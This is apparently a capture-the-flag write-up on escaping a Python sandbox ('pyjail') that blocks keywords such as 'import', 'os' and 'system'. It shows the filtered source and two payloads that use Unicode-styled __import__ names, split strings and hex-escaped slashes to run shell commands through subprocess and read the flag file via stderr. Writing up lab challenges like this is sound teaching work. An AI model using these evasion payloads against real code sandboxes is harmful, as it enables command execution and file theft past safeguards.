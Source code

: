 # escape room (1000 points)

![Alt text](image.png)

This challenge is a pyjail challenge wherein we need to jailbreak the python filters. 

From the source code, we can see that it filters the input on run. So we need to bypass it.

```python
import os, sys

def main():
  filter_list = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  main()
```

We see that our input code will be compiled from this line of code:
```python
  binary = compile(user_data, '<string>', 'exec')
```
Our code should be in string format (UTF-8).

After compiling, file descriptor stdin and stdout will be closed.
```python
  os.close(0)
  os.close(1)
```

Then the compiled code will be executed.
```python
  exec(binary)
```

Since the `stdin` and `stdout` is closed we cannot print out the flag so  we can use `netcat` to bypass the file descriptor errors. But the only thing that is not closed yet is the `stderr`. So we can print the flag with it.

Here our first payload is to import the `subprocess` and `sys` module. Then we can use the `subprocess.Popen` to execute the `ls` command. Then we can read the output of the `ls` command and print it to the `stderr` of the `sys` module.
```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule = __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')('ls', stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](image-1.png)

Our payload is working. How does it work? Well, back to the source code. There is no rule implemented in the compiler. So we can decorate our filtered text and will be read as a valid python code.

Our final payload:

```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule =  __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')(['cat', 'home\x2fctf_user\x2ffl'+'ag'], stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](image-2.png)

